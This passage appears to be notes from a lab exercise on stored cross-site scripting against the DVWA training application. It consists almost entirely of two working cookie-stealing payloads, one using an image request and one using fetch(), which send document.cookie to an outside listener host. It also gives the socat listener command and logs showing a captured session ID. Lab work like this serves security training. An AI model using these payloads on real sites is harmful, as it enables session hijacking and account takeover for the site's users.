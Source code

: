 ```
Content-Length: 147
Origin: http://meta
Connection: close
Referer: http://meta/dvwa/vulnerabilities/xss_s/
Cookie: security=low; PHPSESSID=ae2efb5757e6d8b6d9c1931b610819e5
Upgrade-Insecure-Requests: 1

txtName=test&mtxMessage=<script>new+Image().src%3d"http%3a//20.20.20.129/cool.jpg%3foutput%3d"%2bdocument.cookie%3b</script>&btnSign=Sign+Guestbook
```
## When the page is visited, we get back the cookies on our socat listener:
```bash
socat -d -d TCP4-LISTEN:80,reuseaddr,fork STDOUT
```
```
2022/07/27 14:08:53 socat[213159] N listening on AF=2 0.0.0.0:80
2022/07/27 14:09:00 socat[213159] N accepting connection from AF=2 20.20.20.129:50996 on AF=2 20.20.20.129:80
2022/07/27 14:09:00 socat[213159] N forked off child process 213203
2022/07/27 14:09:00 socat[213159] N listening on AF=2 0.0.0.0:80
2022/07/27 14:09:00 socat[213203] N using stdout for reading and writing
2022/07/27 14:09:00 socat[213203] N starting data transfer loop with FDs [6,6] and [1,1]
GET /cool.jpg?output=security=low;%20PHPSESSID=ae2efb5757e6d8b6d9c1931b610819e5 HTTP/1.1
Host: 20.20.20.129
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://meta/
```
## another payload to steal cookies (from portswigger labs) using POST
```html
<script>fetch('http://20.20.20.129', {method: 'POST',mode: 'no-cors',body:document.cookie});</script>
```
### output: Much cleaner :D
```
2022/07/27 15:47:54 socat[249716] N listening on AF=2 0.0.0.0:80
2022/07/27 15:48:35 socat[249716] N accepting connection from AF=2 20.20.20.129:53706 on AF=2 20.20.20.129:80
2022/07/27 15:48:35 socat[249716] N forked off child process 249964
2022/07/27 15:48:35 socat[249716] N listening on AF=2 0.0.0.0:80
2022/07/27 15:48:35 socat[249964] N using stdout for reading and writing
2022/07/27 15:48:35 socat[249964] N starting data transfer loop with FDs [6,6] and [1,1]
POST / HTTP/1.1
Host: 20.20.20.129
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://meta/
Content-Type: text/plain;charset=UTF-8
Origin: http://meta
Content-Length: 56
Connection: close

security=low; PHPSESSID=ae2efb5757e6d8b6d9c1931b610819e5
```
